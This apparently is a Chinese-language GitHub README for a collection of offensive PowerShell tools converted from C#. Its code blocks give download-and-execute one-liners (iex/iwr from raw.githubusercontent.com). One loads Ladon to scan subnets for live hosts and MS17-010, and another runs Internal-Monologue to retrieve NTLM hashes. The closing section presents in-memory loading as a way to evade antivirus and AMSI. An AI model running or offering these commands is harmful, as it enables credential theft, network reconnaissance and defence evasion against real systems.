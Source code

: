



## 前言：
windows平台上许多攻击性武器都是由C#编写的，并且可以轻松地转为powershell脚本，我将这个仓库作为一个集合，用来储存OffensiveCsharp的powershell代码
# 1.Invoke-Ladon
之前使用Ladon的Powershell版本的时候似乎不能把扫描内容输出到txt文本中，因此我对它做了一点小小的修改。

使用Gzip-compress 和 base64-Encode 转换Ladon的二进制文件然后base64编码解码 并通过[System.Reflection.Assembly]::Load($DecompressedDecodedBinary)在powershell中加载Ladon的二进制文件
## 使用方法：

注意参数中需要加双引号



#### 1.扫描在线主机

```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 OnlinePC" > OnlinePC.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330353-73fb556c-b59b-43e9-a3ac-bc3e28d15644.png)




#### 2.扫描漏洞MS17017



```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 MS17010" > MS17010.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330367-387b676a-6a4c-4ea9-951d-56aac29229e4.png)




具体使用方法请参考：https://github.com/k8gege/Ladon

或者直接把调用命令放在脚本最后一行

![image](https://user-images.githubusercontent.com/89376703/197330378-fff9e947-3c5e-47b8-b4ae-02576fdee671.png)
# 2.Invoke-Internalmonologue

Internalmonologue

Internalmonologue：在不接触 LSASS 的情况下检索 NTLM 哈希:https://github.com/eladshamir/Internal-Monologue

用法：
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-Internalmonologue.ps1)
```



### 总结

使用某些方法可以封装powershell的脚本，让powershell在内存中运行，以此规避一些防病毒软件的查杀，这样就防止从Ladon的源码进行免杀处理的操作,对于powershell的免杀，有时候还要考虑规避AMSI的问题。
